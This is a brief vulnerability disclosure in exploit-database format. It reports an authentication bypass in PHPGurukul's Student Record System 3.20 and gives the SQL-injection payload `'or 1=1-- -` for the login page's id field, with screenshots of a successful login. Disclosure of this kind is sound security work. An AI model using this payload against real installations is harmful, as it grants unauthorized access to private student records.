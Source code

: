 # Student Record System - Authentication Bypass
+ **Exploit Title:** Student Record System - Authentication Bypass
+ **Date:** 2024-01-04
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://phpgurukul.com/student-record-system-php/
+ **Software Link:** https://phpgurukul.com/?sdm_process_download=1&download_id=7216
+ **Version:** 3.20
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Student Record System 3.20 allows Authentication Bypass via the `id` and `password` parameters at "http://localhost/studentrecordms/login.php". 

## Proof of Concept:
+ Go to this address: "http://localhost/studentrecordms/login.php"
+ id : `'or 1=1-- -` password : `1`  and log in
+ Authentication Bypass Successful !

![Student Record auth bypass 1](https://github.com/BurakSevben/CVEs/assets/117217689/9c1055c1-e608-4599-825d-6565b6c9c76f)


![studenr recot auth bypass success](https://github.com/BurakSevben/CVEs/assets/117217689/2d28097f-ee2a-4554-b708-3741283d9c39)
